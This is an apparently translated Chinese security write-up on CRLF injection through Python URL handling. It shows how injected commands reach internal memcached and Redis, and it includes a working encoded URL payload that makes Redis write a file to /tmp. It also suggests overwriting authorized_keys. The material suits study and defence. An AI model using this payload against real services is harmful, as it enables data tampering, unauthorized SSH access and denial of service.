 当检查下面几行memcached的协议语法的时候，大部分都是语法错误，但是memcached在收到错误的命令的时候并不会关闭连接，这样攻击者就可以在请求的任何位置注入命令了，然后memcached就会执行。下面是memcached的响应（memcached是Debian下包管理默认配置安装的）

```
ERROR
ERROR
ERROR
ERROR
ERROR
STORED
ERROR
ERROR

```

经过确认，memcached中确实成功的插入了`foo`的值。这种场景下，攻击者就可以给内网的memcached实例发送任意命令了。如果应用依赖于memcached中存储的数据（比如用户的session数据，HTML或者其他的敏感数据），攻击者可能获取应用更高的权限了。这个利用方式还可以造成拒绝服务攻击，就是攻击者可以在memcached中存储大量的数据。

攻击Redis
-------

Redis和memcached很相似，因为都提供了数据备份存储，一些内置数据类型，还能执行Lua脚本。前几年Quite a bit公布了攻击Redis的一些方法（[链接1](https://benmmurphy.github.io/blog/2015/06/04/redis-eval-lua-sandbox-escape/)[链接2](http://antirez.com/news/96)[链接3](http://www.agarri.fr/kom/archives/2014/09/11/trying_to_hack_redis_via_http_requests/index.html)）。和memcached类似，Redis提供了TCP协议的接口，然后也可以执行一堆错误命令中的正确命令。另外，还可以利用Redis在写任意文件，攻击者可以控制一部分文件内容。比如下面的URL在`/tmp/evil`下创建了一个数据库文件。

```
http://127.0.0.1%0d%0aCONFIG%20SET%20dir%20%2ftmp%0d%0aCONFIG%20SET%20dbfilename%20evil%0d%0aSET%20foo%20bar%0d%0aSAVE%0d%0a:6379/foo

```

然后可以看到刚才存储的一些键值对数据

```
# strings -n 3 /tmp/evil
REDIS0006
foo
bar

```

理论上，攻击者就可以利用Redis创建或者改写一些敏感文件了，包括

```
 ~redis/.profile
 ~redis/.ssh/authorized_keys
...

```

0x03 多版本的Python都受到影响
====================

* * *

Python 2和3版本都受到影响，Cedric Buissart 提供了修复问题的部分信息。
